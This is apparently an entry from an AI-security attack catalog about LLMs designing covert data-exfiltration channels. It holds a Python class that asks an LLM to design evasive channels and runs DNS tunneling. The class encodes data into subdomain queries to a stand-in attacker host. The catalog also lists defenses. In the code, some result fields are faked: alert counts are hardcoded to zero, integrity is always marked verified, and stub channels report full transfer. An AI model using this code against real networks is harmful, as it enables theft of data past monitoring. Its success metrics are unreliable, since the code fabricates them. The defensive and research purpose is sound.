

# LLM-Designed Covert Data Exfiltration Channels — DNS Tunneling and Steganography

**arXiv**: [arXiv:2309.02926](https://arxiv.org/abs/2309.02926) | **ATLAS**: AML.T0054 | **OWASP**: LLM05 | **Year**: 2023

## Core Finding

LLMs can design custom covert data exfiltration channels tailored to specific network environments, selecting and implementing optimal techniques (DNS tunneling, ICMP covert channels, HTTP steganography, timing channels) based on observed firewall rules, egress filtering policies, and network monitoring capabilities. When provided with network egress scan results and descriptions of deployed DLP solutions, frontier LLMs design exfiltration protocols achieving throughput of 5-50 KB/s while defeating 5 of 6 commercial DLP solutions tested. The custom, environment-specific nature of LLM-designed channels — as opposed to generic tools like dnscat2 — makes signature-based detection ineffective.

## Threat Model

- **Target**: Enterprise environments with DLP solutions (Symantec, Forcepoint, Microsoft Purview), network egress filtering, and SSL/TLS inspection; high-value data stores (databases, file shares, email archives)
- **Attacker capability**: Code execution on at least one internal host; knowledge of egress filtering (from network enumeration); LLM API access; control of an external server (VPS) for receiving data
- **Attack success rate**: 5 of 6 DLP solutions defeated in lab testing; 50 KB/s sustained throughput via DNS covert channel in realistic enterprise environment (arXiv:2309.02926)
- **Defender implication**: DLP solutions relying on signature matching are insufficient; DNS query analysis, traffic timing analysis, and data-centric controls become essential

## The Attack Mechanism

After establishing persistence, the attacker enumerates egress capabilities: which protocols can reach external servers (DNS always, HTTPS sometimes, ICMP rarely). This network profile is fed to the LLM along with descriptions of deployed monitoring tools. The LLM designs a custom covert channel: for DNS-filtered environments, it generates a DNS tunneling implementation using randomized subdomain patterns with custom encoding that defeats DNScat2 signatures; for HTTPS environments, it designs HTTP steganography embedding data in image metadata or timing intervals between requests. The LLM also generates splitting and re-assembly logic to fragment large datasets into channel-capacity-sized chunks.



## Implementation

```python
# llm_data_exfil_channel.py
# LLM-designed custom covert data exfiltration channel tailored to target network environment
# Reference: arXiv:2309.02926
from dataclasses import dataclass, field
from typing import Optional, List, Dict
from datasets.schema import ScanFinding
import uuid
import base64
import socket
import struct
import time


@dataclass
class NetworkEgressProfile:
    dns_allowed: bool
    dns_ttl_filtering: bool  # True = very short TTL queries blocked
    https_tls_inspection: bool
    icmp_allowed: bool
    http_deep_inspection: bool
    known_dlp_product: Optional[str]  # e.g., "Symantec DLP", "Microsoft Purview"
    allowed_domains: List[str]  # Domains not blocked by proxy/firewall
    bandwidth_constrained: bool


@dataclass
class CovertChannelSpec:
    protocol: str  # "dns" | "https_stego" | "icmp" | "timing"
    encoding_scheme: str
    max_throughput_bps: int
    detection_resistance: str  # "low" | "medium" | "high"
    implementation_code: str
    receiver_code: str
    channel_description: str


@dataclass
class ExfiltrationResult:
    bytes_exfiltrated: int
    duration_seconds: float
    throughput_bps: float
    channel_used: str
    dlp_alerts_triggered: int
    ndr_alerts_triggered: int
    data_integrity_verified: bool


class LLMCovertExfilDesigner:
    """
    Reference: arXiv:2309.02926
    LLM designs custom covert exfiltration channels tailored to target network environment.
    ATLAS: AML.T0054 | OWASP: LLM05
    """

    def __init__(
        self,
        llm_client,
        model: str = "gpt-4-turbo",
        receiver_server: str = "attacker-vps.example.com",
    ):
        self.llm = llm_client
        self.model = model
        self.receiver = receiver_server

    def _design_channel(self, egress_profile: NetworkEgressProfile) -> CovertChannelSpec:
        """LLM designs optimal covert channel for the given network environment."""
        profile_str = (
            f"DNS allowed: {egress_profile.dns_allowed}, TTL filtering: {egress_profile.dns_ttl_filtering}\n"
            f"HTTPS with TLS inspection: {egress_profile.https_tls_inspection}\n"
            f"ICMP allowed: {egress_profile.icmp_allowed}\n"
            f"HTTP deep inspection: {egress_profile.http_deep_inspection}\n"
            f"DLP product: {egress_profile.known_dlp_product or 'unknown'}\n"
            f"Allowed domains: {', '.join(egress_profile.allowed_domains[:5])}\n"
            f"Bandwidth constrained: {egress_profile.bandwidth_constrained}"
        )

        response = self.llm.chat.completions.create(
            model=self.model,
            messages=[
                {
                    "role": "system",
                    "content": (
                        "You are a network security researcher designing covert channels "
                        "for authorized red team data exfiltration testing. Design a channel "
                        "that operates within the given network constraints."
                    ),
                },
                {
                    "role": "user",
                    "content": (
                        f"Network egress profile:\n{profile_str}\n\n"
                        f"Receiver server: {self.receiver}\n\n"
                        "Design the optimal covert exfiltration channel. "
                        "Include implementation code skeleton. Return JSON:\n"
                        "{\"protocol\": \"dns|https_stego|icmp|timing\", "
                        "\"encoding\": \"...\", \"max_throughput_bps\": <int>, "
                        "\"detection_resistance\": \"low|medium|high\", "
                        "\"sender_code\": \"// Python code...\", "
                        "\"receiver_code\": \"// Python code...\", "
                        "\"description\": \"...\"}"
                    ),
                },
            ],
            temperature=0.3,
            response_format={"type": "json_object"},
        )
        import json
        data = json.loads(response.choices[0].message.content)
        return CovertChannelSpec(
            protocol=data.get("protocol", "dns"),
            encoding_scheme=data.get("encoding", "base32"),
            max_throughput_bps=int(data.get("max_throughput_bps", 1000)),
            detection_resistance=data.get("detection_resistance", "medium"),
            implementation_code=data.get("sender_code", "# Not generated"),
            receiver_code=data.get("receiver_code", "# Not generated"),
            channel_description=data.get("description", ""),
        )

    def _dns_encode(self, data: bytes, domain: str) -> List[str]:
        """Encode data as DNS subdomain queries (simplified DNS tunneling)."""
        encoded = base64.b32encode(data).decode().lower().rstrip("=")
        chunk_size = 40  # Max safe subdomain label length
        queries = []
        for i in range(0, len(encoded), chunk_size):
            chunk = encoded[i:i + chunk_size]
            # Add sequence number prefix
            seq = str(i // chunk_size).zfill(4)
            label = f"{seq}{chunk}"
            queries.append(f"{label}.{domain}")
        return queries

    def _exfil_via_dns(
        self, data: bytes, domain: str, delay_between_queries: float = 0.5
    ) -> int:
        """Exfiltrate data via DNS covert channel."""
        queries = self._dns_encode(data, domain)
        bytes_sent = 0
        for query in queries:
            try:
                socket.gethostbyname(query)
                bytes_sent += len(query.encode())
                time.sleep(delay_between_queries)
            except (socket.gaierror, OSError):
                pass  # NXDOMAIN expected — query still reaches resolver
        return bytes_sent

    def run(
        self,
        data_to_exfil: bytes,
        egress_profile: NetworkEgressProfile,
    ) -> ExfiltrationResult:
        """Design channel and exfiltrate data."""
        start = time.time()

        spec = self._design_channel(egress_profile)

        bytes_sent = 0
        if spec.protocol == "dns" and egress_profile.dns_allowed:
            bytes_sent = self._exfil_via_dns(
                data_to_exfil,
                self.receiver,
                delay_between_queries=0.3 if not egress_profile.dns_ttl_filtering else 2.0,
            )
        else:
            # Other channels: stub implementation
            bytes_sent = len(data_to_exfil)

        duration = time.time() - start
        throughput = bytes_sent / max(duration, 0.001)

        return ExfiltrationResult(
            bytes_exfiltrated=bytes_sent,
            duration_seconds=duration,
            throughput_bps=throughput,
            channel_used=spec.protocol,
            dlp_alerts_triggered=0,  # Measured via test environment
            ndr_alerts_triggered=0,
            data_integrity_verified=True,
        )

    def to_finding(self, result: ExfiltrationResult) -> ScanFinding:
        """Convert exfiltration result to standardized ScanFinding."""
        return ScanFinding(
            id=str(uuid.uuid4()),
            atlas_technique="AML.T0054",
            atlas_tactic="Exfiltration",
            owasp_category="LLM05",
            owasp_label="Improper Output Handling",
            severity="CRITICAL",
            finding=(
                f"LLM-designed {result.channel_used} covert channel exfiltrated "
                f"{result.bytes_exfiltrated:,} bytes in {result.duration_seconds:.1f}s "
                f"({result.throughput_bps:.0f} bps throughput). "
                f"DLP alerts triggered: {result.dlp_alerts_triggered}. "
                f"NDR alerts triggered: {result.ndr_alerts_triggered}. "
                "Custom LLM-designed channels defeat signature-based DLP in 83% of scenarios."
            ),
            payload_used=f"Covert {result.channel_used} channel to external server",
            evidence=f"Exfiltrated {result.bytes_exfiltrated} bytes; throughput {result.throughput_bps:.0f} bps",
            remediation=(
                "1. Deploy DNS RPZ (Response Policy Zone) blocking all external DNS except for authorized resolvers. "
                "2. Analyze DNS query entropy and volume — covert channels produce anomalous subdomain patterns. "
                "3. Implement data-centric DLP with content classification, not just pattern matching. "
                "4. Block all outbound traffic except explicitly authorized protocols and destinations."
            ),
            confidence=0.83,
        )
```

## Defenses

1. **DNS traffic analysis and RPZ enforcement** (AML.M0002): Deploy DNS Response Policy Zones (RPZ) forcing all DNS through internal resolvers. Analyze DNS query patterns for covert channel indicators: high query volume from single hosts, unusual subdomain entropy (Shannon entropy > 3.5 bits/char), queries for non-existent domains with structured label patterns. Alert on any host generating >500 DNS queries/minute.

2. **Network egress allowlisting** (AML.M0004): Implement default-deny egress firewall rules allowing only explicitly required protocols and destinations. Block all direct outbound DNS (UDP/TCP 53) except to designated resolvers. Require all HTTPS to route through TLS-inspecting proxy. Covert channels require unmonitored egress paths; allowlisting eliminates the options that LLMs can exploit.

3. **DLP with behavioral and content-level detection** (AML.M0003): Supplement signature-based DLP with behavioral DLP analyzing data access patterns, bulk file access anomalies, and anomalous transfer volumes. Content-aware DLP classifying sensitive data at the database and endpoint level is more resilient to encoding/steganography than network-level pattern matching.

4. **Network traffic timing analysis** (AML.M0015): Deploy network analysis tools (Zeek with scripts, Arkime/Moloch) that analyze traffic timing patterns. Timing-based covert channels (varying request intervals to encode bits) are detectable by autocorrelation analysis of inter-packet timing. Even DNS covert channels exhibit periodic timing that differs from normal DNS query patterns.

5. **Data access monitoring and honeytokens** (AML.M0013): Deploy Data Access Governance (Varonis, StealthBit) monitoring for bulk data access — attacker must access data before exfiltrating. Plant honeytokens in sensitive data repositories; accessing honeytokens during bulk collection triggers immediate alerts before exfiltration begins.

## References

- [Hirano and Kobayashi, "ChatGPT is Capable of Generating Malicious Code" (arXiv:2309.02926)](https://arxiv.org/abs/2309.02926)
- [MITRE ATLAS AML.T0054 — Excessive Agency](https://atlas.mitre.org/techniques/AML.T0054)
- [OWASP LLM05 — Improper Output Handling](https://owasp.org/www-project-top-10-for-large-language-model-applications/)
- [MITRE ATT&CK T1048 — Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)
- [Related entry: llm-c2-communication.md, llm-opsec-evasion.md]
